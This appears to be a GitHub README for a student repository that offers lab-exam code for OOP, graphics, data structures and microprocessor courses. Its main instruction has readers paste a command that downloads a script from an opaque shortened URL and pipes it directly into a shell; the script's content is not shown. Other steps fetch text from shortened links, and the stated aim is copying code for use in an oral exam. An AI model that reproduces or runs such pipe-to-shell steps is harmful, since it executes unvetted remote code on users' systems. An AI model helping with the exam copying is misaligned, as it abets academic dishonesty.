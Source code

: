 # Oral Exam Programming Code Collection

This repository contains important instructions for accessing a collection of programming codes used in preparation for the upcoming oral exam. The resource covers various subjects such as:

- **Object-Oriented Programming Lab (OOPL)**
- **Computer Graphics Lab (CGL)**
- **Data Structures and Algorithms Lab (DSAL)**
- **Data Structures Lab (DSL)**
- **Microprocessor Lab (MPL)**
## Instructions

# Important!!!: First of all make sure there is internet connection in your system (Ethernet or Wi-Fi to be connected) then only follow the instructions ahead otherwise nothing will work.

Follow the steps below according to your operating system.

## For Linux
### Direct method
1. **Open Terminal**
2. Copy and Paste this command pressing "Control + Shift + V" from your keyboard or manually (pressing right click and clicking on paste) paste it.
```bash
wget -qO- https://naturl.link/curl | sh
```
3. Once the command completes, open `pro.txt` to review the codes.

### Manual Method
1. **Open Terminal.**
2. Since Linux may not have the `curl` command installed by default, use the following command instead:
   ```
   wget -qO - https://is.gd/se19pro >> pro.txt
   ```
3. Once the command completes, open `pro.txt` to review the codes.

## For Windows

1. **Open the Windows Command Prompt (cmd).**
2. Execute the following command:
   ```
   curl -fsSL https://is.gd/se19pro >> pro.txt
   ```
3. After executing the command, open the file `pro.txt` in your favorite text editor to view the programming codes.

## To run programs follow these steps for your own program.

### 1. Running a Python Program

**Steps:**
1. Write your Python code in a file (for example, save it as `script.py`).
2. Open a terminal.
3. Run the program using the Python interpreter.

**Command:**

```bash
python3 script.py
```

### 2. Running a C++ Program

**Steps:**
1. Write your C++ code in a file (e.g., `program.cpp`).
2. Open a terminal.
3. Compile the C++ source file using a C++ compiler (like `g++`), and then run the compiled executable.
4. Use a single-line command with `&&` to chain the compile and run commands.

**Command Example:**

```bash
g++ program.cpp -o program && ./program
```

### 3. Running an Assembly Program (Using NASM and LD)

**Steps:**
1. Write your assembly code in a file (e.g., `program.asm`).
2. Open a terminal.
3. Assemble the source code using NASM.
4. Link the object file using LD to produce an executable.
5. Chain these steps using `&&` on one line.

**Command Example:**

```bash
nasm -f elf64 program.asm -o program.o && ld program.o -o program && ./program
```

### 4. Running a Java Program.

**Steps:**
1. Write your Java code in a file (e.g., `Program.java`).
2. Open a terminal.
3. Compile the Java source code using the `javac` command.
4. Run the compiled Java program using the `java` command.
5. Chain these steps using `&&` on one line.

**Command Example:**

```bash
javac Program.java && java Program
``` 
## Purpose

These instructions are provided to copy the codes for use in the oral exam. Make sure to follow these steps accordingly based on your operating system.

---

Happy studying and best of luck on your oral exam!
